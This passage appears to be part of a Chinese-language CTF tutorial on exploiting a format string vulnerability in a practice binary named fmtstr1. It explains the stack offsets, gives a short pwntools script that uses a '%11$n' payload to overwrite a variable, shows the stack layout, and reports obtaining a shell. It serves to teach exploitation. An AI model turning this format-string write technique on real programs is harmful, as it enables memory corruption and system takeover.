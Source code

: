 如图，`esp`是`printf()`的格式化字符串位置，`esp + 4`是其拷贝，`ebx`是`buf`的位置，中间距离11个字长，所以如果我们想要更改x的值，首先需要传入x的地址，此时x的地址就会存放在`ebx`的位置，然后拼接一个`%11$n`来让`printf()`的格式化字符串寻找第11个参数，即x的地址，然后为其赋值

构造攻击脚本

```py
from pwn import *

sh = process('./fmtstr1')
# 本题需要让x的值等于4，而x的地址本身就是四字节，因此直接拼接即可
payload = p32(0x804a02c) + b'%11$n'
sh.sendline(payload)
sh.interactive()
```

此时的栈结构为

| stack addr | content                 |
| ---------- | ----------------------- |
| 0xffffcef0 | &p32(x addr) + b'%11$n' |
| 0xffffcef4 | &p32(x addr) + b'%11$n' |
| 0xffffcef8 | 0x50                    |
| 0xffffcefc | 1                       |
| 0xffffcf00 | 0                       |
| 0xffffcf04 | 1                       |
| 0xffffcf08 | &0                      |
| 0xffffcf0c | &0x6d6f682f             |
| 0xffffcf10 | 0                       |
| 0xffffcf14 | &0x5b94e1bb             |
| 0xffffcf18 | 0x1a                    |
| 0xffffcf1c | x addr                  |

执行脚本，成功`getshell`

> <img src="./img0/25.png">
